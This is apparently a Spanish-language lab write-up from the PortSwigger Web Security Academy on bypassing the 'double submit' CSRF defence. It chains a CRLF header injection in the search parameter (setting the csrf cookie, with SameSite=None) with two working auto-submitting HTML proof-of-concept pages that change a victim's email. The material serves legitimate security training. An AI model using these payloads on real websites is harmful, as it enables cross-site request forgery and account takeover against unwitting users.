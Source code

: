 En otra variación de la vulnerabilidad anterior, algunas aplicaciones no mantienen ningún registro del lado del servidor de los tokens que se han emitido, sino que duplican cada token dentro de una cookie y un parámetro de solicitud. Cuando se valida la petición subsiguiente, la aplicación simplemente verifica que el token enviado en el parámetro de petición coincide con el valor enviado en la cookie. Esto se denomina a veces la defensa de "doble envío" contra CSRF, y se recomienda porque es simple de implementar y evita la necesidad de cualquier estado del lado del servidor:

```c
POST /email/change HTTP/1.1 Host: vulnerable-website.com Content-Type: application/x-www-form-urlencoded Content-Length: 68 Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

En esta situación, el atacante puede realizar de nuevo un ataque CSRF si el sitio web contiene alguna funcionalidad de configuración de cookies. Aquí, el atacante no necesita obtener un token válido propio. Simplemente inventa un token (quizás en el formato requerido, si se está comprobando), aprovecha el comportamiento de configuración de cookies para colocar su cookie en el navegador de la víctima, y alimenta su token a la víctima en su ataque CSRF.

![20250711022411.png](20250711022411.png)

## LAB:

![20250713002131.png](20250713002131.png)

Se tiene un panel para actualizar el correo del usuario, al interceptar la petición podemos observar que tenemos dos token CSRF:

![20250713002255.png](20250713002255.png)
El token CSRF son iguales y este hace una comparativa que ambos sean iguales, por lo que no hace una validación si el token existe.

![20250713002517.png](20250713002517.png)

Entonces para nuestro POC debemos tener en cuenta que el token CSRF también va en la cookie, por lo que debemos buscar una manera en el que podamos añadir el token que queremos en la cookie. Investigando un poco el sitio encontramos que el el `search` envia un `Set-Cookie` 

![20250713012705.png](20250713012705.png)

Al agregar `%0d%0aSet-Cookie:%20csrf=anytoken` a la búsqueda, podemos manipular el token

![20250713012910.png](20250713012910.png)

Por lo que podemos usar esto para nuestra POC

```c
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="pwned" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=pwned" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

Al probar este POC no me funciono, debido a que no tiene el atributo `SameSite=None`, por lo que el navegador aplica por defecto `SameSite=Lax`. Debido a eso, el navegador NO enviará esa cookie (csrf=pwned) en la solicitud. Por lo que agregue `SameSite`

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@pwned.net" />
      <input type="hidden" name="csrf" value="pwned" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a2500130321157cd44ee07400d400f6.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=pwned%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

En la primera PoC, se inyecta la cookie `csrf=pwned` sin especificar ningún atributo adicional, por lo que los navegadores modernos, por seguridad, asumen `SameSite=Lax` por defecto. Esta configuración impide que la cookie sea enviada en solicitudes `POST` que se originan desde otro sitio (es decir, bloquea solicitudes cross-site como las que se generan en ataques CSRF). En cambio, la segunda PoC sí incluye el atributo `SameSite=None` al final del encabezado `Set-Cookie`, lo que explícitamente le indica al navegador que esa cookie puede ser enviada en solicitudes cross-site, permitiendo que el formulario malicioso se envíe con la cookie correcta (`csrf=pwned`). Como resultado, el CSRF se ejecuta exitosamente. Esta diferencia es crítica, ya que `SameSite=None` es necesario para que una cookie sea aceptada y enviada en ataques CSRF modernos. Además, puedes verificar fácilmente si la cookie se ha inyectado y está siendo enviada desde las herramientas del navegador (DevTools), ya sea en la pestaña de Cookies o inspeccionando la solicitud en la pestaña Network.
